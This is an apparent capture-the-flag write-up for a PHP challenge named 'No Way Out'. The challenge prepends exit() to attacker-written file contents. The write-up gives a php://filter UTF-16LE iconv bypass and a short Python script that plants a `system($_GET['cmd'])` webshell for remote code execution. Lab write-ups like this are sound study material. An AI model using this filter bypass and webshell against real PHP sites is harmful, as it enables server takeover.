

## No Way Out  



We are given a PHP website with a file write vuln. If we are able to write a webshell, we get RCE and win.  

However, the main obstacle of this challenge is that the backend prepends an `exit()` to our write contents, so the program will exit before our actual payload executes.  

```php
<?php
    error_reporting(0);
    $content = $_POST['content'];
    $file = $_GET['file'];

    if (isset($file) && isset($content)) {
        
        $exit = '<?php exit(); ?>';
        $blacklist = ['base64', 'rot13', 'string.strip_tags'];

        foreach($blacklist as $b){
            if(stripos($file, $b) !== false){
                die('Hacker!!!');
            }
        }

        file_put_contents($file, $exit . $content);
	
	usleep(50000);

        echo 'file written: ' . $file;
    }

    highlight_file(__FILE__);
?>
```

To bypass this, we can use the `php://filter` wrapper to UTF-16LE-decode the first `<?php ?>` tags of the `exit()` and turn them into garbage bytes, preventing it from running.  

To get our actual payload to run, we just have to UTF-16Le-encode it beforehand.  

```python
payload = f'php://filter/write=convert.iconv.UTF-16LE.UTF-8/resource=shell.php'
shell = "<?php system($_GET['cmd']); ?>".encode("utf-16-le")

res = requests.post(f'{url}/index.php?file={payload}', data={
    'content': shell
})
```

After uploading our payload, we can access our webshell at `/shell.php` and read the flag in root.  

Flag: `THJCC{h4ppy_n3w_y34r_4nd_c0ngr47_u_byp4SS_th7_EXIT_n1ah4wg1n9198w4tqr8926g1n94e92gw65j1n89h21w921g9}`